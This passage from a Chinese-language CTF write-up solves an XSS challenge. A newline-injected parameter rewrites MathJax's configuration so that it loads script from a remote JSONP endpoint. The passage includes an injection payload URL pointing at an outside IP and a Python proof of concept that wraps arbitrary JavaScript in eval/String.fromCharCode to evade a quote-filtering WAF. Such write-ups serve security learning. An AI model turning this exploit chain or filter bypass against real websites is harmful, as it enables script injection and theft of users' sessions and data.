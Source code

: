 

然后进行猜测，应该是要**通过2来修改MathJax的配置，从而加载任意js文件，此时引入jsonp来实现xss。**

尝试修改jax的根路径，但是该处修改在引入MathJax之前，导致Hub改不了。改Ajax的话，会额外添加一个AuthorConfig字段，貌似不生效、

如下payload：

```
name=123%0aMathJax['Ajax']={"config":{"root":"http://47.110.128.101/5am3test"}}
```

可以看到

![20190624156134810069567.jpg](https://img.5am3.com/20190624156134810069567.jpg)



此时在这个AuthorConfig卡了许久，查阅资料也没找到啥。最终无奈之下，找源头，翻了一下MathJax的源码，对AuthorConfig进行搜索，找到以下点，然后顿时思路清晰，构造payload即可。

![20190624156134827062364.png](https://img.5am3.com/20190624156134827062364.png)



最后利用时，发现jsonp接口还有个waf，对引号进行了过滤，此时用eval+fromCharCode绕过即可，最终poc如下。

```python
#coding:utf-8

import sys

def getPayload(evaljs):
	p = "http://47.110.128.101/config?callback="
	payload='eval(String.fromCharCode('
	for i in range(len(evaljs)):
		payload+=str(ord(evaljs[i]))
		if(i+1<len(evaljs)):
			payload+=','
	payload+='));//'
	payload+=""
	test = "http://47.110.128.101/challenge?name=abcd%0aMathJax[%27root%27]%3d"
	payload = test+p+payload+"%26/"
	print("[payload] "+payload)
	return 


if __name__ == '__main__':

	arg = sys.argv[2]
	getPayload(arg)
	
```

第二题依旧一样，通杀的payload。



### easyweb
